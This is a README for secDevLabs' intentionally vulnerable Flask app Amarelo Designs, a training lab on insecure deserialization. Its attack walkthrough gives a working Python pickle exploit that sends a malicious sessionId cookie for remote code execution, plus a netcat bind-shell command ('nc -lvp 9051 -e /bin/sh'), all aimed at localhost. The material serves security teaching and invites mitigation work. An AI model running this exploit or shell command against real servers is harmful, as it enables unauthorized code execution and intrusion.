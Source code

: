 # Amarelo Designs

<p align="center">
    <img src="images/Amarelo-Designs.png"/>
</p>

This is a simple web application built with Flask that contains an example of a Software and Data Integrity failure vulnerability and, its main goal is to describe how a malicious user could exploit a vulnerability, intentionally installed on Amarelo Designs from secDevLabs, to obtain blind remote code execution.

## Index

- [Definition](#what-is-insecure-deserialization)
- [Setup](#setup)
- [Attack narrative](#attack-narrative)
- [Objectives](#secure-this-app)
- [Solutions](#pr-solutions)
- [Contributing](#contributing)

## What is Insecure Deserialization?

Serialization is the process of translating data structures or object state, into a format that can be stored or transmitted and reconstructed later. Insecure deserialization often leads to remote code execution. Even if deserialization flaws do not result in remote code execution, they can be used to perform attacks, including replay attacks, injection attacks, and privilege escalation attacks.

The main goal of this app is to discuss how **Insecure Deserialization** vulnerabilities can be exploited and to encourage developers to send secDevLabs Pull Requests on how they would mitigate these flaws.

## Setup

To start this intentionally **insecure application**, you will need [Docker][docker install] and [Docker Compose][docker compose install]. After forking [secDevLabs](https://github.com/globocom/secDevLabs), you must type the following commands to start:

```sh
cd secDevLabs/owasp-top10-2017-apps/a8/amarelo-designs
```

```sh
make install
```

Then simply visit [localhost:10008][app] ! 😆

## Get to know the app 🎨

To properly understand how this application works, you can follow these simple steps:

- Visit the homepage!
- Have a look at the portfolio

## Attack narrative

Now that you know the purpose of this app, what could go wrong? The following section describes how an attacker could identify and eventually find sensitive information about the app or its users. We encourage you to follow these steps and try to reproduce them on your own to better understand the attack vector! 😜

### 👀

#### Use of an insecure deserialization function allows for remote code execution

It's possible to reach the server's web application from the HTTP port 10008, as shown by the image below:

<img src="images/attack1.png" align="center"/>

Making use of the [Dirb] tool to search for webpages and a common directories [wordlist], we were able to find `/user`, `/admin` and `/console`, as shown by the picture below: (If you want to install Dirb for Mac OS, be sure to click [here][4])

```sh
$ dirb http://localhost:10008 ./../../../docs/common.txt
```

<p align="center">
    <img src="images/attack2.png"/>
</p>

When accessed, the `/admin` page exposes an authentication screen, as depicted by the image:

<p align="center">
    <img src="images/attack3.png"/>
</p>

### 🔥

A quick test utilizing `admin` as the credentials for the `Username` and `Password` fields, gives us acess to an Admin Dashboard, as shown below:

<img src="images/attack4.png" align="center"/>

Now, using [Burp Suite] as proxy to intercept the login request, we can see that the app returns a session cookie, `sessionId`, as depicted below:

<img src="images/attack5.png" align="center"/>

After decoding the cookie, which is in base64, the following structure was found:

<img src="images/attack6.png" align="center"/>

The structure found is very similar to the ones created with the [Pickle] function. We can be certain of that by having a look at the app's [code][3]. The hint is now confirmed, the app uses Pickle, as we can see from the image below:

<img src="images/attack7.png" align="center"/>

If an attacker knew that the app uses `Pickle` as the serialization method, he/she could create a malicious cookie to take advantage of it and execute code remotely. An example of an exploit (serializaPickle.py) in Python 3 that could produce this cookie could be:

```python
import pickle
import os
import base64
import sys
import requests

cmd = str(sys.argv[1])
url = str(sys.argv[2])


class Exploit(object):
    def __reduce__(self):
        return (os.system, (cmd, ))


pickle_result = pickle.dumps(Exploit())

result = str(base64.b64encode(pickle_result), "utf-8")

print(result)
print(cmd)
print(url)

cookie = {'sessionId': result}

print(cookie)

r = requests.get(url, cookies=cookie)
```

To be certain that the app is exploitable, we will send a sleep command to make the app unresponsive for 10 seconds. If the app takes 10 seconds to return our request, then it's confirmed, the app is exploitable. As we can see from the image below, the app takes some time to return our request, thus confirming that it is exploitable and confirming the remote code execution:

```sh
$ python3 serializaPickle.py "sleep 10" http://localhost:10008/user
```

<img src="images/attack9.png" align="center"/>

To show how an attacker could have access to the server through an RCE, we will use the code depicted on the image below to create a bind shell on the server's 9051 port.

```sh
$ python3 serializaPickle.py "nc -lvp 9051 -e /bin/sh" http://localhost:10008/user
```

<img src="images/attack10.png" align="center"/>

The code used above creates a bind shell on the server's port 9051, which is then listening for incoming connections. After that, the attacker can connect to that port using a simple [netcat] command, as shown below:

```sh
$ nc localhost 9051
```

<p align="center">
    <img src="images/attack11.png"/>
</p>

## Secure this app

How would you mitigate this vulnerability? After your changes, an attacker should not be able to:

- Execute code remotely through a serialization vulnerability

## PR solutions

[Spoiler alert 🚨] To understand how this vulnerability can be mitigated, check out [these pull requests](https://github.com/globocom/secDevLabs/pulls?q=is%3Apr+label%3A%22mitigation+solution+%F0%9F%94%92%22+label%3A%22Amarelo+Designs%22)!

## Contributing

We encourage you to contribute to SecDevLabs! Please check out the [Contributing to SecDevLabs](../../../docs/CONTRIBUTING.md) section for guidelines on how to proceed! 🎉

[docker install]: https://docs.docker.com/install/
[docker compose install]: https://docs.docker.com/compose/install/
[app]: http://localhost:10008
[secdevlabs]: https://github.com/globocom/secDevLabs
[2]: https://github.com/globocom/secDevLabs/tree/master/owasp-top10-2017-apps/a8/amarelo-designs
[dirb]: https://tools.kali.org/web-applications/dirb
[burp suite]: https://en.wikipedia.org/wiki/Burp_suite
[3]: https://github.com/globocom/secDevLabs/blob/master/owasp-top10-2017-apps/a8/amarelo-designs/app/app.py
[pickle]: https://docs.python.org/2/library/pickle.html
[netcat]: https://en.wikipedia.org/wiki/Netcat
[4]: https://github.com/globocom/secDevLabs/blob/master/docs/Dirb.md
[wordlist]: https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/common.txt
